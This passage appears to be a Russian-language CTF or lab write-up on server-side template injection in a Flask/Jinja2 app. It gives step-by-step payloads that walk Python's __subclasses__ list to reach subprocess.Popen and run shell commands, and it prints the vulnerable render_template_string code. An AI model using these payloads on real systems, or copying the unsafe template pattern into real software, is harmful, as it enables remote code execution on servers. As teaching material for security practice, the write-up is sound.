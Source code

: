 Объекты в Python имеют метод .__subclassess__ , который позволяет нам спускаться по дереву объектов:

Полезная нагрузка: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__() }}`.

Теперь нам нужно найти объект, который позволяет нам запускать команды оболочки. Выполнение Ctrl-F для модулей в 
коде выше дает нам совпадение:



Поскольку весь этот вывод — это просто список Python, мы можем получить к нему доступ, используя его индекс. Вы 
можете найти его либо методом проб и ошибок, либо подсчитав его позицию в списке.

В этом примере позиция в списке — 400 (индекс 401):

Полезная нагрузка: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401] }}`.

Приведенная выше полезная нагрузка по сути вызывает метод subprocess.Popen , теперь все, что нам нужно сделать, это вызвать его (используйте код выше для синтаксиса)

Полезная нагрузка: `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}`.

Поиск полезных нагрузок
Процесс создания полезной нагрузки может занять некоторое время, если вы делаете это впервые, однако важно понимать, 
почему это работает.

Для быстрой справки был создан замечательный репозиторий GitHub в качестве шпаргалки по полезным нагрузкам для всех 
веб-уязвимостей, включая SSTI.

Репозиторий находится здесь, а документ для SSTI находится здесь .

### Ответьте на вопросы ниже
Каков результат выполнения команды оболочки «whoami»?
```commandline
jake
```
## Задание 6
Теперь, когда мы взломали приложение, давайте посмотрим, что на самом деле происходило при внедрении полезной нагрузки.

Код, который мы использовали, был таким же, как показано в Задании 1:
```commandline
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route("/profile/<user>")
def profile_page(user):
    template = f"<h1>Welcome to the profile of {user}!</h1>"

    return render_template_string(template)

app.run()
```
Давайте представим это как простую операцию поиска и замены.
